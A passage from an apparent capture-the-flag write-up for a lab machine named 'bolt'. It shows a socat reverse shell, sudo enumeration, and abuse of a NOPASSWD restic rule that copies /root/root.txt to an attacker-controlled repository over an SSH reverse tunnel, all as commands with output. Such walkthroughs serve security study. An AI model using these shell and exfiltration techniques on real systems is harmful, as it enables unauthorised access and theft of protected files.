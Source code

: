 We upload socat with scp:

	root@pentestbox:~# scp -i id_rsa socat bolt@docker.registry.htb:/tmp/socat

Make it executable:

	bolt@bolt:~$ chmod +x /tmp/socat 

and we run:

	www-data@bolt:/var/www/html/bolt/files# /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:9119

<pre>
root@pentestbox:~# socat file:`tty`,raw,echo=0 tcp-listen:9119
www-data@bolt:~/html/bolt/files$ 
</pre>

## Enumeration

After having had punchs with shells, now we can run some enumeration.
Running

	www-data@bolt:~/html/bolt/files$ sudo -l 

Shows us that:

<pre>
www-data@bolt:~/html/bolt$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
</pre>

Restic is a tool for doing backups into a remote repository supported by rsync. So, we can backup anything we want to a repository that we'll create on our box. To achieve this, we need to forward again a port:

	root@pentestbox:~# ssh -i id_rsa -R 9120:127.0.0.1:9120 bolt@10.10.10.159

In addition, we have to create our restic repository:

	root@pentestbox:~# restic init --repo /tmp/restic-repo                                   
	enter password for new repository: 
	enter password again: 
	created restic repository 3de2e332e9 at /tmp/restic-repo

Via rclone, we serve it:

	root@pentestbox:~# rclone serve restic -v /tmp/restic-repo --addr 127.0.0.1:9120

On target then:

	www-data@bolt:/tmp/repo$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:9120/ /root/root.txt
	enter password for repository: 
	password is correct
	found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
	scan [/root/root.txt]
	scanned 0 directories, 1 files in 0:00
	[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
	duration: 0:00
	snapshot c990645b saved
